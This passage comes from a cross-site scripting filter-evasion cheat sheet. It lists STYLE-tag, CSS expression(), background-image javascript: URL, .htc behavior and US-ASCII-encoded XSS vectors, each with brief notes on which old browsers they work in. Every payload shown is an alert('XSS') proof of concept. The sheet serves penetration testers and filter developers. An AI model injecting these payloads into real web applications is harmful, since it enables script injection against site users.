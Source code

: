 ```js
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```
## STYLE Attribute using a Comment to Break-up Expression
Created by Roman Ivanov

```js
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```



## IMG STYLE with Expression
This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
STYLE Tag (Older versions of Netscape only)
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

STYLE Tag using Background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

STYLE Tag using Background
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE> <STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

## Anonymous HTML with STYLE Attribute
IE6.0 and Netscape 8.1+ in IE rendering engine mode don’t really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```js
<XSS STYLE="xss:expression(alert('XSS'))">
```

## Local htc File
This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:
```js
<XSS STYLE="behavior: url(xss.htc);">
```
US-ASCII Encoding
US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.
```
¼script¾alert(¢XSS¢)¼/script¾
```
META
The odd thing about meta refresh is that it doesn’t send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:
